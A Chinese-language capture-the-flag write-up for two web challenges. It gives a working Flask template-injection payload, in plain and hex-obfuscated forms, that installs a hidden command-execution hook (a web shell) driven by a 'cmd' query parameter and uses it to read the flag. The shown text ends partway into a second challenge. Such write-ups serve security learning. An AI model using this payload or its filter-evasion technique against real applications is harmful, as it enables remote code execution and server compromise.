 
### Safe_Proxy

打开网页，得到本题的题目 Python 代码，经过代码审计得知本题是一个 flask 框架的无回显 SSTI 模板注入，同时需要 break jail。

- https://www.cnblogs.com/meraklbz/p/18572680 无回显 SSTI
- https://blog.csdn.net/qq_38154820/article/details/111399386 breakjail

```python
# 原 payload
url_for__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']})

# 改写后的 payload
url_for['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x65\x76\x61\x6c']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f(\'flask\').make_response(getattr(\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f(\'\x6f\x73\'), \'\x70\x6f\x70\x65\x6e\')(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for['\x5f\x5fglobals\x5f\x5f']['request'],'app':url_for['\x5f\x5fglobals\x5f\x5f']['\x73\x79\x73'].modules['\x5f\x5fmain\x5f\x5f']['\x5f\x5fdict\x5f\x5f']['app']})
```

改写重点在于对于 `__` 和其他关键字的处理，其中 .popup 方法无法直接改写，因此改用 getattr 然后再改写 popup。

将改写后的 payload 包裹在 `{{}}` 中，作为 code 字段的参数 post 到该网址，便能 getshell，然后访问 `/?cmd=cat ../flag` 拿到 flag：`flag{9d95d67a-47df-4eb2-a230-e9f30f2adc66}`。

### hello_web

使用 BurpSuite 抓包，在访问指定网页时看到如下 response。

![](attachments/Pasted%20image%2020241215093135.png)

去 /bookmarks.html，内含 hackme.php、tips.php 两个提示，访问对应 php。

在访问对应 php 之后重定向的请求的请求头中可以看到字段：

```
tip: &#105;&#110;&#99;&#108;&#117;&#100;&#101;&#46;&#112;&#104;&#112
=
tip: include.php
```